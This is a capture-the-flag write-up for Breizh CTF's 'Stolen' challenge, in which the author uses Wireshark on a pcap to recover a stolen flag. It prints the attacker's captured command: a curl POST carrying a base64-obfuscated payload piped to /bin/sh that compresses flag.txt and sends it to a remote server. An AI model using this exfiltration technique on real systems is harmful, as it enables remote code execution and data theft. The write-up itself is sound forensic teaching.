




# Breizh CTF - Write-up - Stolen

## Description

```
During an Attack/Defense CTF, we deployed network capture to intercept exploits used by other teams.
However, we lack expertise in network analysis.
Could you assist us in recovering the flag that was stolen from us?

Attachment : capture.pcap
Difficulty : Very Easy
```

## Resolution

For this challenge we have a pcap capture to analyse. Let's use wireshark to parse it.



There are many TCP requests which looks like an nmap command.

Basic thing to do is to filter with http requests because it's an easy challenge. 



There are some POST requests, interesing, we could follow the TCP flow to see the data transmited.



Looks like an RCE command on a web service, maybe the CTF A/D service.

This command is in parameter : 
```
curl -X POST -d test=$(echo "Y2F0IC4vZmxhZy50eHQgfCB4eiAtRiByYXcgLS1sem1hMSB8c2VkICJzL1x4MDBceDIxXHgxNlx4ODVceDEyXHg3Mi9ceDkwXHg5MFx4OTBceDkwXHg5MFx4OTAvZyIgfCBiYXNlNjQgfCB0ciAtZCAiXFxuIiB8IHRyIC1kICJcXHIi" | base64 -d | /bin/sh ) http://172.28.0.4:8000
```

The base64 is :
```
$ echo -n 'Y2F0IC4vZmxhZy50eHQgfCB4eiAtRiByYXcgLS1sem1hMSB8c2VkICJzL1x4MDBceDIxXHgxNlx4ODVceDEyXHg3Mi9ceDkwXHg5MFx4OTBceDkwXHg5MFx4OTAvZyIgfCBiYXNlNjQgfCB0ciAtZCAiXFxuIiB8IHRyIC1kICJcXHIi' | base64 -d

cat ./flag.txt | xz -F raw --lzma1 |sed "s/\x00\x21\x16\x85\x12\x72/\x90\x90\x90\x90\x90\x90/g" | base64 | tr -d "\\n" | tr -d "\\r"
```

We know what the attacker did, he execute a curl command on the remote service. This curl command send the content of the `flag.txt` file compressed in lzma and change some bytes with `"\x90"...`. The output command is send with the curl request on a remote server controlled by the attacker. 

We could view the content of the curl request with wireshark :



Here we see the python server of the attacker receive the content.
Now we just need to invert the command of the attacker :

```
$ echo 'kJCQkJCQd8fQujQTA7xvNhfLrvZSwGoO+/C6QMGuX2Nlsw66fnOYm4iokkG7//xUMAA=' | base64 -d | sed "s/\x90\x90\x90\x90\x90\x90/\x00\x21\x16\x85\x12\x72/g" | xz -F raw --lzma1 -d

BZHCTF{r34dy_70_pr073c7_y0ur_n37w0rk!}
```

Flag is : `BZHCTF{r34dy_70_pr073c7_y0ur_n37w0rk!}`